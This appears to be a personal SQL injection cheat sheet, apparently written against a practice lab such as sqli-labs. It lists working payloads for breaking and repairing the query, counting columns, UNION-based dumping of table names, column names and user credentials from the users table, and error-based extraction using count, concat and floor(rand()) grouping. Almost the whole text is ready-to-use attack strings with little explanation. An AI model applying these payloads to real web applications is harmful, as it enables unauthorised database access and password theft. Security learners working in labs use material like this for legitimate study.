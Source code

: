 **# Break the query (do fuzzing)** :

 	=> ?id=1' or ?id=1\\ or ?id=1"



**# Fix the query :**

 	=> broken query:  ''1\\') LIMIT 0,1'

 	   fix : ?id=1')--+



**# Get the column numbers in query :**

=> ?id=1' order by x --+ //keep incrementing x until breaks, the last number without breaking is the number of column used in query.



 	or, ?id=1' union select 1,2,3 AND '1

 

\# **Attack-sample** : ?id=-1' union select 1, user(), database() --+

 	=> **get table-names :** ?id=-1' union select 1, group\_concat(table\_name),3 from information\_schema.tables where table\_schema=database() --+ // **output** : emails,referers,uagents,users

 	=> **get column names** : ?id=-1' union select 1, group\_concat(column\_name),3 from information\_schema.columns where table\_name='users' --+ // **output** : id,username,password

 	=> **get user-names \& passwords** : ?id=-1' union select 1, group\_concat(username),group\_concat(password) from users --+

 	=> **alternative way :** ?id=-1' union select 1,user(),3 AND '1







**# Dump info through error :**

=> ?id=1' AND (select 1 from (select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),0x3a,0x3a, floor(rand()\*2))a from information\_schema.columns group by a)b) --+



**more options:**

select count(\*), concat(0x3a,0x3a,(select database()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.columns group by a;

select count(\*), concat(0x3a,0x3a,(select version()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.columns group by a;

select count(\*), concat(0x3a,0x3a,(select user()),0x3a,0x3a, floor(rand()\*2))a from information\_schema.columns group by a;

select count(\*), concat(0x3a,0x3a,(select table\_name from information\_schema.tables where table\_schema=database() limit 0,1),0x3a,0x3a, floor(rand()\*2))a from information\_schema.columns group by a;
